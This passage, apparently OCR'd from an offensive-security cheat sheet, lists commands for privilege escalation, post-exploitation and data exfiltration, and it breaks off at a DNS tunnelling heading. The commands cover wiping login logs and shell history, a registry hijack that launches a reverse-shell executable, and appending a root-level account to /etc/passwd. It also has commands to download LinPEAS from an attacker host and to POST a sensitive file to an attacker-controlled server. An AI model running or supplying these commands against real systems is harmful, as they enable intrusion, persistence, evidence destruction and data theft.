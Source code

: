 ```bash
> /var/log/wtmp  
> /var/log/btmp  
> /var/log/auth.log  
history -c  
```

* * *

## 10\. Advanced Privilege Escalation Techniques

### Windows COM Hijacking for Persistence

```powershell
reg add "HKCU\Software\Classes\mscfile\shell\open\command" /ve /d "C:\reverse-shell.exe" /f  
```

### Linux Exploiting Writable `/etc/passwd`

```bash
echo 'root2:x:0:0:root:/root:/bin/bash' >> /etc/passwd  
su root2  
```

* * *

## 11\. Post-Exploitation Tools

### WinRM Authentication & Execution

```bash
evil-winrm -i <target-IP> -u <user> -p <password>  
```

### Linux Enumeration with LinPEAS

```bash
wget http://attacker-ip/linpeas.sh  
chmod +x linpeas.sh  
./linpeas.sh  
```

* * *

## 12\. Data Exfiltration Techniques

### Exfiltrating Data Over HTTP (Python)

```python
python3 -m http.server 8080  
curl -X POST -d @sensitive-data.txt http://attacker-ip:8080  
```

### Exfiltrating via DNS Tunneling
